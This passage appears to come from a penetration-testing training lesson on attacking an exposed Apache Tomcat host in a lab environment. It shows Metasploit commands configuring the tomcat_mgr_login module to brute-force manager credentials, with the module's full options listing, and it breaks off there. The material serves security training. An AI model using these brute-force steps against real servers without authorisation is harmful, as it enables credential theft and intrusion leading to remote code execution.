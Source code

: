 
<h1>Attacking Tomcat</h1>
<hr/>
<p>We've identified that there is indeed a Tomcat host exposed externally by our client. As the scope of the assessment is relatively small and all of the other targets are not particularly interesting, let's turn our full attention to attempting to gain internal access via Tomcat.</p>
<p>As discussed in the previous section, if we can access the <code>/manager</code> or <code>/host-manager</code> endpoints, we can likely achieve remote code execution on the Tomcat server. Let's start by brute-forcing the Tomcat manager page on the Tomcat instance at <code>http://web01.inlanefreight.local:8180</code>. We can use the <a href="https://www.rapid7.com/db/modules/auxiliary/scanner/http/tomcat_mgr_login/">auxiliary/scanner/http/tomcat_mgr_login</a> Metasploit module for these purposes, Burp Suite Intruder or any number of scripts to achieve this. We'll use Metasploit for our purposes.</p>
<hr/>
<h2>Tomcat Manager - Login Brute Force</h2>
<p>We first have to set a few options. Again, we must specify the vhost and the target's IP address to interact with the target properly. We should also set <code>STOP_ON_SUCCESS</code> to <code>true</code> so the scanner stops when we get a successful login, no use in generating loads of additional requests after a successful login.</p>
<pre><code class="language-shell-session">msf6 auxiliary(scanner/http/tomcat_mgr_login) &gt; set VHOST web01.inlanefreight.local
msf6 auxiliary(scanner/http/tomcat_mgr_login) &gt; set RPORT 8180
msf6 auxiliary(scanner/http/tomcat_mgr_login) &gt; set stop_on_success true
msf6 auxiliary(scanner/http/tomcat_mgr_login) &gt; set rhosts 10.129.201.58
</code></pre>
<p>As always, we check to make sure everything is set up correctly by <code>show options</code>.</p>
<pre><code class="language-shell-session">msf6 auxiliary(scanner/http/tomcat_mgr_login) &gt; show options 

Module options (auxiliary/scanner/http/tomcat_mgr_login):

   Name              Current Setting                                                                 Required  Description
   ----              ---------------                                                                 --------  -----------
   BLANK_PASSWORDS   false                                                                           no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                                                                               yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false                                                                           no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false                                                                           no        Add all passwords in the current database to the list
   DB_ALL_USERS      false                                                                           no        Add all users in the current database to the list
   PASSWORD                                                                                          no        The HTTP password to specify for authentication
   PASS_FILE         /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt      no        File containing passwords, one per line
   Proxies                                                                                           no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS            10.129.201.58                                                                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:&lt;path&gt;'
   RPORT             8180                                                                            yes       The target port (TCP)
   SSL               false                                                                           no        Negotiate SSL/TLS for outgoing connections
   STOP_ON_SUCCESS   true                                                                            yes       Stop guessing when a credential works for a host
   TARGETURI         /manager/html                                                                   yes       URI for Manager login. Default is /manager/html
   THREADS           1                                                                               yes       The number of concurrent threads (max one per host)